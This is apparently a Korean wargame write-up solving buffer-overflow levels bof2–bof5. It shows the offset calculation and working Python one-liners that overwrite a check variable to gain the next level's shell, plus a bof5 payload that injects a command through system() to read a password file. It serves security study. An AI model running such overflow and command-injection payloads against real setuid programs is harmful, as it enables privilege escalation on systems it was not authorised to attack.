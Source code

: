 # bof3

`bof3`를 실행시키기 전에 `bof3.c` 를 살펴보자.
![bof3.c](img/bof3.png)

다음과 같이 되어 잇는데 `gets_s`를 안 썼기 때문에 `Buffer Overflow`에 취약하다. `innocent`의 값을 `KEY` 와 같게 한다면 우리는 `1004`의 권한을 가지게 된다.

다음은 `gets` 에서 `rdi`로 들어가는 주소 값이다.
![gets](img/puts_input.png)

이 값을 기억해두고

![rdi](img/bof3_rdi.png)

아래의 `if(innocent == KEY)` 를 수행하는 `cmp DWORD PTR[rbp-0x4], 0x61` 에 들어가는 주소값, `$rbp-0x4` 의 값을 기억해 두 주소사이의 거리를 10진수로 나타내면 140이 나온다. 

![dist](img/bof3_dist.png)

이 뜻은 `buf`에 140만큼 채운다면 `innocent` 영역에 접근이 가능하다는 뜻.

`python code`를 통해 'x'로 140을 채우고 `innocent`에 `KEY` 값에 해당되는 값을 넣어주는데 나의 기계는 `little endian` 으로 작동하기 때문에 뒷자리, 즉 `00 00 00 61` 를 `61 00 00 00` 순으로 넣어준다. 

```bash
$(python -c "print 'x'*140 + 'a\x00\x00\x00'" ; cat ) | ./bof3
```


![bof3_result](img/bof3_result.png)

그렇게 해주면 다음과 같이 `/bin/sh`이 실행되면서 `cat`이 실행되는데 이때 `bof4`의 권한을 가지고 있기 때문에 실행이 끝나지 않고 `input stream`을 닫지 않는다.

# bof4

`bof4` 문제는 다음과 같다.

![bof4](img/bof4.png)

딱보면 `bof2` 문제와 `bof3`문제를 합친 것 같다.
`bof2` 에서 `argument`로 `buf`를 채워야 하기 때문에 다음과 같이 하면 `python`을 활용해 140 만큼의 내용을 채워주면 된다.
참고로 bof2의 답은 다음과 같다.

<details>
<summary><b>bof2 답</b></summary>
<div markdown="1">

`strcpy_s`를 안 썼기 때문에 `buffer overflow` 취약점이 있다. 

```bash
$./bof2 `python -c "print 'x'*140 + 'aaaa'"`
```

</div>
</details>

`bof2`의 답의 형식을 따르고 비밀번호만 바뀐것이기 때문에
다음과 같이 명령어를 짜면 bof5의 권한을 얻을 수 있다.

```bash
$./bof2 `python -c "print 'x'*140 + '\x78\x56\x34\x12'"`
```

> 이번에도 little endian 이기 때문에 역순으로 써준 것.


![bof4_result](img/bof4_result.png)

그 결과 다음과 같이 bof5의 권한을 가질 수 있게 된다.

# bof5

`bof5` 또한 위의 문제들을 응용하면 된다. 다른점은, `system`에서 `buffer`에 있는 값을 명령어로 실행 시킨다는 것이다.
![bof5](img/bof5.png)

위에 예시로 든 `bof3`에서 한 것처럼 `buf`와 `innocent`의 거리를 찾고 그 buf 앞부분을 우리가 원하는 명령어로 채워두기만 하면 되는 것이다. 주의 해야하는 부분은 명령어를 구분할 수 있도록 `;`를 사용하는 것이다. 

>이번에는 `/bin/sh`을 실행시키지 않고 이미 분기를 지날때 bof6의 권한이 있으니 바로 `bof6.pw`의 값을 알아봐도 된다.

명령어로 채우고 남은 부분은 여전히 `innocent`의 값을 조작하기 위해 채워야 한다. 그래서 `dist(innocent - buffer) - strlen(cmd)` 를 한 값만큼 쓰레기 값(`'x'`)로 채워준다.

```
buf     ->   62 61 74 20    bat
             62 6f 66 36    bof6
             2e 70 77 3b    .pw;
             xx xx xx xx 
...
             xx xx xx xx
innocent ->  78 56 34 12
```


답은 다음과 같다.
```bash
$ python -c "print 'bat bof6.pw;' + 'x' *132 + '\x78\x56\x34\x12'" | ./bof5
```

![bof5_result](img/bof5_result.png)



